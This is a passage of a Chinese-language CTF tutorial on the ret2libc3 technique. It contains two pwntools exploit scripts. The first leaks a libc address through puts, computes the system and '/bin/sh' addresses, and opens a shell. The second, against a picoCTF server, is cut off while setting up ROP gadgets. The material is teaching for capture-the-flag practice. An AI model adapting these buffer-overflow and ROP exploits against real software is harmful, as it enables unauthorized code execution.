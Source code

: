 ```
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print("leak libc_start_main_got addr and return to main again")
payload = flat([b'A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter(b'Can you find it !?', payload)

print("get the related addr")
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print("get shell")
payload = flat([b'A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

##### 第四类：ret2libc3——无system()和/bin/sh，有 libc.so文件

对于还含有libc.so文件的,我们可以通过.so文件去寻找system和bin/sh，

结合libc的延迟绑定机制，下面要做的是需要我们泄露某个已经执行过的函数的真实地址，实现泄露地址功能的函数可以通过puts()函数来输出打印出来实现，而参数填的是某个已经执行过的函数的GOT地址；同时为了程序再次执行能重新实现栈溢出功能，在puts()函数的返回地址填的是_start()函数或main()函数地址即可。

对于system()函数，其属于libc，在libc.so动态链接库中的函数之间相对偏移是固定的。我们由泄露的某个函数的GOT表地址可以计算出偏移地址（A真实地址-A的偏移地址 = B真实地址-B的偏移地址 = 基地址），从而可以得到system()函数的真实地址（当然也可以直接调用pwntools的libc.address得到libc的真实地址，然后再直接查找即可找到真实的system()函数地址）。

_start()和main()的区别

简单地说，main()函数是用户代码的入口，是对用户而言的；而_start()函数是系统代码的入口，是程序真正的入口。

checksec查看一下，开启了NX，且是64位，
![[Pasted image 20240923213747.png]]
题目也给了libc.so文件，因此可以先构造第一次的payload，可以通过put函数泄露main的got的真实地址

然后可以通过引用的libcsearcher库，分析出libc的版本，然后通过泄露的真实地址与libc中的main的地址相减可以得出基地址，最后在libc文件中找到system函数的地址与bin/sh的地址各自加上基地址，就得到了在可执行文件中system与bin/sh,然后构造第二个payload,在这里要记得进行栈对齐，否则运行失败

```
from pwn import *
p = remote('mercury.picoctf.net', 37289)
#p=process('./vuln')
elf = ELF("./vuln")
libc = ELF("./libc.so")
rop = ROP(elf)

PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']

POP_RDI = 0x0000000000400913
RET = 0x000000000040052e

```